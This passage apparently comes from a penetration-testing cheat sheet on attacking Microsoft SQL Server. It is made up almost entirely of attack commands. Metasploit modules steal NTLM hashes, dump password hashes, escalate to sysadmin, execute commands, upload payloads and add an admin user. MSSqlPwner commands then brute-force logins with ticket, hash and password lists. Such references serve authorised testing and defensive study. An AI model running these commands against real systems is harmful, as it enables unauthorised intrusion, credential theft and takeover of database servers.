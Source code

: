 ```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

### [**Brute force**](../../generic-hacking/brute-force.md#sql-server)

### Manual Enumeration

#### Login

[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)

```shell
# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt
```
